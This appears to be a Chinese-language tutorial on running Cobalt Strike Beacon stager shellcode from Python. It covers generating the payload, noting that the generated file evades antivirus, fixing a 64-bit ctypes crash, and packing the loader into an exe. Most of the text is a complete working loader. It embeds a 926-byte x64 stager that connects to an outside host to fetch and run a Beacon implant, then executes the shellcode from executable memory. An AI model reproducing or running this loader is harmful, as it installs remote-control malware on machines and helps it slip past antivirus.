

# CS 生成并调用Beacon的ShellCode

按照CS4.9的[User-driven Attack Packages](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/init-access_user-driven-attack-packages.htm?cshid=1036#_Toc65482753)文档可以生成Stager Payload的shellcode。

如下图所示，选择python，会生成python语法格式的源文件，并将shellcode保持在生成文件中。（注：如果输出格式选择`C`，那么生成的shellcode替换进python中也可以使用，只是生成指定语言的源代码而已，核心shellcode都是类似的可执行二进制码）



获得CS生成的py文件，该文件并不会被现有防病毒软件查杀。按照文档[python shellcode 加载](https://github.com/aleenzz/Cobalt_Strike_wiki/blob/master/2-%E7%AC%AC%E4%BA%94%E8%8A%82%5Bpython%20shellcode%20%E5%8A%A0%E8%BD%BD%5D.md)中方法，添加调用shellcode的python代码（附在文章末尾）后，执行报如下错误：

```
C:\Users\Administrator\Desktop>python payload_x64.py
Traceback (most recent call last):
  File "C:\Users\Administrator\Desktop\payload_x64.py", line 22, in <module>
    ctypes.windll.kernel32.RtlMoveMemory(
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^
        ctypes.c_void_p(rwxpage),  # 指向分配内存的指针
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
        shellcode_buffer,       # buffer
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
        ctypes.c_size_t(len(shellcode))  # shellcode 的长度
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    )
    ^
OSError: exception: access violation writing 0x0000000073E20000
```

经过分析，发现是由于Python中`ctypes`库在64位系统中处理指针的问题。添加额外的代码`ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p`即可以解决该问题。详细请参考文档<a src="cs_imgs/How to run shellcode in python3 64bit.pdf"> How to run shellcode in python3 64bit </a>

此外，python代码可以使用`PyInstaller`工具打包成exe文件，方便在未按照python的机器上测试。（注：该exe运行时会被AV给查杀掉）

## 完整执行shellcode的代码如下（适用于Python3.13 64位）：

```
# length: 926 bytes
buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xe9\x93\x00\x00\x00\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x79\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x32\xc0\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\xba\x1f\x00\x00\x00\x6a\x00\x68\x80\x33\x00\x00\x49\x89\xe0\x41\xb9\x04\x00\x00\x00\x41\xba\x75\x46\x9e\x86\xff\xd5\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xb3\xe9\xe4\x01\x00\x00\xe8\x82\xff\xff\xff\x2f\x51\x36\x73\x63\x00\x6b\xc8\xc9\x22\x9b\xf1\x92\xb6\x85\xa1\x5c\x46\x72\x86\x4c\xe0\x97\x29\xf7\x04\x62\x84\xc3\xb2\x6b\xc0\xed\x35\x88\x1f\xef\xec\x67\x48\x8f\xc6\x3f\x2e\x11\xaa\xb9\x8e\xe6\x9a\x02\x71\xa7\xcf\xa7\xa5\x6b\x35\xba\xea\x04\xfa\x82\xb0\xbe\x2a\x37\x0e\xa8\xf9\x22\x8f\x18\x0f\x6e\x09\xc3\xb9\xb0\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x38\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x34\x2e\x30\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x32\x2e\x30\x2e\x35\x30\x37\x32\x37\x29\x0d\x0a\x00\x8f\x4b\xf5\x89\x84\x0b\xdb\x5d\x97\xc5\x27\x69\xe6\x93\x7b\x38\xc5\x96\x62\xf1\xa1\xe1\xa8\xb0\x86\x99\x5c\xad\xbf\x2c\xcd\x9e\x0a\x0d\xdf\x58\xe7\x8d\x40\xa9\x5b\x9e\x07\x6c\x11\x24\xae\xcb\xbe\xfd\xe4\x2a\x8b\x2e\x27\x50\x5d\x78\xe8\x98\x3b\x98\x3a\xee\x5e\x64\x56\xa3\x3d\x7d\x43\x59\xf6\xbe\x7d\xad\x87\xbb\x07\x45\x4b\x14\x55\xdd\x03\xbf\x34\x37\x61\x40\x8b\x90\x12\x22\xa2\xc1\x14\x3d\xe6\xb0\xc9\xbe\xe9\xcf\xa8\x88\xaa\xd3\x3f\x9e\x7a\x28\x2c\xbc\x97\x7a\x1b\x9c\xe1\x61\x82\xcb\x5c\x44\xbd\xd9\xba\x28\xaf\x1f\x69\xe1\x21\x5c\x27\x94\x1f\x24\x21\x2b\x4f\xe4\x31\x09\x53\x2b\xdd\x03\x1d\x49\xb0\x7f\x31\x05\x63\xe4\x0f\x14\x82\xbd\xd6\x13\xbc\xc8\x3a\xdb\x7a\x57\x8f\x8b\x72\x92\xa8\xbf\x79\xb4\x78\xc1\x1e\x9b\x2f\x67\xb8\xe1\xec\x4d\x1d\x27\x06\xe1\x82\x65\x5d\xd0\x8f\x7d\x3d\x07\x32\x8d\xcc\x1a\x51\x6b\x99\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x7f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x32\x00\x3a\xde\x68\xb1"

import ctypes
import ctypes.wintypes

# 分配可执行内存
MEM_COMMIT = 0x1000
MEM_RESERVE = 0x2000
PAGE_EXECUTE_READWRITE = 0x40

shellcode=buf.encode('latin-1')
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
if not rwxpage:
    raise Exception("内存分配失败！")

shellcode_buffer = ctypes.create_string_buffer(shellcode)

# 使用 RtlMoveMemory 将 shellcode 写入
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_void_p(rwxpage),  # 指向分配内存的指针
    shellcode_buffer,       # buffer
    ctypes.c_size_t(len(shellcode))  # shellcode 的长度
)
print("start cs beacon!!!")
shell = ctypes.cast(rwxpage, ctypes.CFUNCTYPE(ctypes.c_void_p))
shell()
```
